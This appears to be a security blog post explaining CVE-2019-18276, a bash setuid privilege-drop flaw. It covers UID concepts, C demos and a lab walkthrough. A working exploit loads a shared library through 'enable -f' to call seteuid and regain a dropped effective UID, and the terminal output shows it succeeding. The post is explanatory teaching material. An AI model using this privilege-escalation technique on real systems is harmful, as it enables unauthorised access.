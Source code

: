 ```yaml
---
title: "CVE-2019-18276 - Suidbash"
date: 2019-11-28T23:13:39+01:00
draft: false
index: true
tags: ["cve", "bash", "privilege-escalation"]
categories: ["exploit", "security"]
comments: true
highlight: true
---
```


This exploit was initially based on an older vulnerability back in 1999 (`suidperl`). Now after 20 years in 2019 we found the same vulnerability in bash (`CVE-2019-18276`) was discovered by Ian Pudney.

<!--more-->
### TL;DR
The root cause of this vulnerability is that bash doesn't handle setuid bit correctly, by default bash will drop the SUID privilege if the **Real UID** is different from the **Effective UID**, but it forget to drop also the **Saved UID**.

before we continue let's first define :

### Real UID vs Effective UID vs Saved UID

* **Real UserID** : It is the owner of the process.
* **Effective UserID** : By default it is the same as Real UserID, but sometimes it is changed to give more privilege to the user, e.g : setuid bit.
* **Saved UserID** : Sometimes when a privileged user (generally root) wants to do some non-privileged activities, this can be achieved by temporarily switching to non-privileged account.


### setuid() vs seteuid()

* **setuid()** : This function will change both the (`Real UserID`, `Effective UserID` and `Saved UserID`) of the current process to the specified value.
* **seteuid()** : This function will change the `Effective UserID` to the specified value. The effective user ID may be set to the value of the real user ID or the saved set-user-ID.

#### Example 
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
printf("UID = %d , eUID = %d \n",getuid(),geteuid());
system("id");
seteuid(1001);
printf("UID = %d , eUID = %d \n",getuid(),geteuid());
system("id");
}
```
After compiling this code we need to specify the setuid  bit on the binary and run it from a different user.
```shell
alice@suidbash:/CVE-2019-18276$ ls -la
total 24
drwxrwxrwt 1 alice  alice  4096 Nov 29 09:59 .
drwxr-xr-x 1 alice  alice  4096 Nov 28 21:42 ..
-rwsr-xr-x 1 bob   bob   8587 Nov 29 09:59 uid
alice@suidbash:/CVE-2019-18276$ ./uid 
UID = 1001 , eUID = 1000 
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
UID = 1001 , eUID = 1001 
uid=1001(alice) gid=1001(alice) groups=1001(alice)
```
### /bin/bash
```shell
alice@suidbash:/CVE-2019-18276$ ls -la
total 964
drwxr-xr-x 2 alice  alice    4096 Nov 28 21:52 .
drwx------ 1 alice  alice    4096 Nov 28 22:04 ..
-rwsr-xr-x 1 bob   bob   959120 Nov 28 21:49 bash
```
As we can see the binary bash is set with the setuid bit, which mean that if `alice` user run this binary, she will get automatically `bob`'s privilege. However this will not happen with bash, because bash by default drops automatically the privilege if the user didn't specify the `-p` option.

#### Example 
```shell
alice@suidbash:/CVE-2019-18276$ ./bash 
bash-4.2$ id
uid=1001(alice) gid=1001(alice) groups=1001(alice)

alice@suidbash:/CVE-2019-18276$ ./bash -p
bash-4.2$ id
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
```
>  We are not sure if bash uses `seteuid()` function to drop the privilege, but after some testing we figure out that the `Saved UID` didn't change.

### Attacks
bash doesn't handle setuid bit correctly, which makes us able to recover the dropped privilege. To exploit this vulnerability we need to call the `seteuid()` function in order to recover the Saved UID. However the problem here is that we cannot exploit this by calling a binary to execute `seteuid()`, we need to call the `seteuid()` in the process runtime.

#### enable -f
`enable` is a bash function that can be used to enable and disable builtin shell commands, and with option `-f` we can load a shared object.

#### Exploit
```c
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
// gcc -c -fPIC pwn.c -o pwn.o
// gcc -shared -fPIC pwn.o -o libpwn.so
void __attribute__ ((constructor)) initLibrary(void){
    seteuid(1000); // The Saved UID that we want to recover
}
```
After compiling the code all what we need to do is :
```shell
alice@suidbash:/CVE-2019-18276$ ./bash 
bash-4.2$ id      
uid=1001(alice) gid=1001(alice) groups=1001(alice)
bash-4.2$ enable -f ./libpwn.so asd
bash: enable: cannot find asd_struct in shared object ./libpwn.so: ./libpwn.so: undefined symbol: asd_struct
bash-4.2$ id
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
bash-4.2$ 
```
As you can see we have successfully recovered the dropped privilege.

#### Download:
To repeat all the steps :
```shell
amriunix@hunter:~$ docker run -it -u alice -h suidbash amriunix/cve-2019-18276 /bin/bash
alice@suidbash:/$ cd CVE-2019-18276/
alice@suidbash:/CVE-2019-18276$ ls -la
total 980
drwxr-xr-x 2 alice alice   4096 Nov 29 10:57 .
drwxr-xr-x 1 root  root    4096 Nov 29 11:22 ..
-rwsr-xr-x 1 bob   bob   959120 Nov 28 21:49 bash
-rwxr-xr-x 1 alice alice   7876 Nov 28 21:52 libpwn.so
-rw-r--r-- 1 alice alice    138 Nov 28 21:47 pwn.c
-rw-r--r-- 1 alice alice   1608 Nov 28 21:52 pwn.o
-rwsr-xr-x 1 bob   bob     8587 Nov 29 10:57 uid
-rw-r--r-- 1 root  root     206 Nov 29 10:57 uid.c
alice@suidbash:/CVE-2019-18276$ 
```

#### Sources:
* [liveoverflow](https://www.youtube.com/watch?v=-wGtxJ8opa8)
</br>